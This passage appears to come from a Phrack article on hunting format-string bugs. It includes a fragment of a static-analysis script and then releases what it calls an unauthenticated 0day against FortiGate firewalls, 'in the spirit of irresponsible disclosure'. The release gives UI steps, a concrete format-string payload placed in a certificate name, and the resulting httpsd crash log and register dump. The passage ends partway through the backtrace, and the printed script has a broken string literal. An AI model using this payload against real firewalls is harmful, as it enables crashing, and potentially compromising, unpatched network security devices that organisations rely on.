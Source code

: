 ```python
  for f in functions:
      print("-----"+f+"-----)
      for ff in bv.get_functions_by_name(f):
          for i in check(ff, fns[f]):
              print(hex(i))

```

Put simply, this script checks for every call to a printf-family function,
then checks if the format argument is a constant value, or a stack buffer. 
There are, of course, plenty of better tools to perform this kind of basic 
static analysis, but I want to make the point that you don't have to be a 
skilled exploit dev to find format string bugs in a poorly made piece of 
software.

## 2 - Beating a Dead Firewall

Running that script against something very secure like the Fortinet 
/bin/init binary, you could easily rack up enough CVEs to pad your resume.
Luckily for you, and in the spirit of irresponsible disclosure, I am 
publishing a few crashes just for Phrack! Please enjoy two 0day 
unauthenticated bugs, and one unauthenticated n-day:

### 2.1 - Certificate Import

I heard somewhere that PKI is important. I wonder what happens if I add 
some %n's to the certificate name on import...

```text
  1. System -> Certificates -> Create/Import -> Certificate
     -> Import Certificate -> Certificate
  2. Add a valid certificate file and key file
  3. Set the certificate name to %4919$1$c%n%n%n%n%n%n%n%n%n
  4. Click create
```

Internal server error? Let's check the crash log.

```text
  # diagnose debug crashlog read

  <02946> firmware FortiGate-VM64 v7.2.7,build1577b1577,240131 (GA.M) (Release)
  <02946> application httpsd
  <02946> *** signal 11 (Segmentation fault) received ***
  <02946> Register dump:
  <02946> RAX: 0000000010c9dde0   RBX: 0000000010caf09c
  <02946> RCX: 00007fffd366e008   RDX: 00007f132d45bfc0
  <02946> R08: 0000000010c97050   R09: 00007f132d49abe0
  <02946> R10: 0000000000004000   R11: 0000000000000000
  <02946> R12: 00007fffd3668570   R13: 0000000000001337
  <02946> R14: 0000000000000009   R15: 00000000000006d9
  <02946> RSI: 00007fffd366a288   RDI: 00007fffd366e000
  <02946> RBP: 00007fffd3668dd0   RSP: 00007fffd3668480
  <02946> RIP: 00007f132d346c6c   EFLAGS: 0000000000010212
  <02946> CS:  0033   FS: 0000   GS: 0000
  <02946> Trap: 000000000000000e   Error: 0000000000000004
  <02946> OldMask: 0000000000000000
  <02946> CR2: 00007fffd366e000
  <02946> stack: 0x7fffd3668480 - 0x7fffd366d490 
  <02946> Backtrace:
  <02946> [0x7f132d346c6c] => /usr/lib/x86_64-linux-gnu/libc.so.6  liboffset 
  00064c6c
  <02946> [0x7f132d34905d] => /usr/lib/x86_64-linux-gnu/libc.so.6  liboffset 
  0006705d
  <02946> [0x7f132d35c826] => /usr/lib/x86_64-linux-gnu/libc.so.6  liboffset 
```